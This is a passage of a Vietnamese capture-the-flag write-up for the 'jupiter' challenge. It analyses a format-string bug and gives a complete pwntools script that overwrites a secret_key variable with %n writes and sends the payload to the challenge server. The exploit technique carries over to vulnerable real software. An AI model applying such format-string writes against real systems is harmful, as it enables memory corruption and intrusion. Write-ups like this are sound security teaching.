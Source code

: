         ```
        cmp    $0x1337c0de, <secret_key>
        jne    ...
        call   <read_flag>
        
        ```
        
4. **Lên kế hoạch khai thác:**
    - **Mục tiêu:** Ghi giá trị `0x1337c0de` vào địa chỉ của `secret_key`.
    - **Công cụ:** Sử dụng định dạng `%n` trong lỗ hổng Format String để thực hiện ghi vào một địa chỉ tùy ý (Arbitrary Memory Write).
    - **Bước 1: Tìm địa chỉ.** Sử dụng GDB, chúng ta tìm được địa chỉ cố định của `secret_key` là `0x404010`.
    - **Bước 2: Tìm offset.** Chúng ta cần biết `dprintf` phải "nhảy" qua bao nhiêu đối số trên stack 64-bit để đến được nơi bắt đầu payload của chúng ta. Bằng cách gửi một chuỗi `AAAA.%p.%p...`, chúng ta thấy chuỗi `AAAA` xuất hiện ở đối số thứ 5. Vậy **offset là 5**.
    - **Bước 3: Tự động hóa payload.** Việc tạo payload Format String 64-bit để ghi một giá trị 4-byte là rất phức tạp. Chúng ta sử dụng module `fmtstr_payload` của `pwntools` để làm việc này.
    - **Gỡ lỗi:** Lần thử đầu tiên thất bại do server ngắt kết nối. Chúng ta chẩn đoán rằng `pwntools` cần biết bối cảnh (context) của tệp nhị phân để tạo payload cho đúng kiến trúc 64-bit. Bằng cách thêm dòng `context.binary = ELF('./jupiter')`, `pwntools` đã tạo ra payload chính xác.

---

## Kịch bản giải mã (Exploit)

Kịch bản Python cuối cùng sử dụng `pwntools` để tự động hóa toàn bộ quá trình, từ việc tìm địa chỉ đến việc tạo và gửi payload.

```python
# exploit.py
# Tác giả: foqs & Gemini
# Để chạy: python3 exploit.py

from pwn import *

# Offset đã được xác định bằng cách gửi chuỗi '%p' và tìm vị trí của input
offset = 5

# Cung cấp bối cảnh của tệp nhị phân cho pwntools.
# Đây là bước quan trọng để tạo payload đúng cho kiến trúc 64-bit.
context.binary = elf = ELF('./jupiter')

# Tự động lấy địa chỉ của biến mục tiêu từ ELF
secret_key_addr = elf.symbols['secret_key']
value_to_write = 0x1337c0de

# Tạo một dictionary để chỉ định địa chỉ và giá trị cần ghi
writes = {secret_key_addr: value_to_write}

# Pwntools tự động tạo payload Format String phức tạp
payload = fmtstr_payload(offset, writes)

log.info(f"Offset được sử dụng: {offset}")
log.info(f"Địa chỉ secret_key: {hex(secret_key_addr)}")
log.info(f"Payload đã tạo (độ dài {len(payload)}):")
print(payload)

# Kết nối đến server của thử thách
p = remote('chal.sunshinectf.games', 25607)

# Gửi payload sau khi nhận được prompt
p.sendlineafter(b'risk: ', payload)

# Chuyển sang chế độ tương tác để nhận flag
```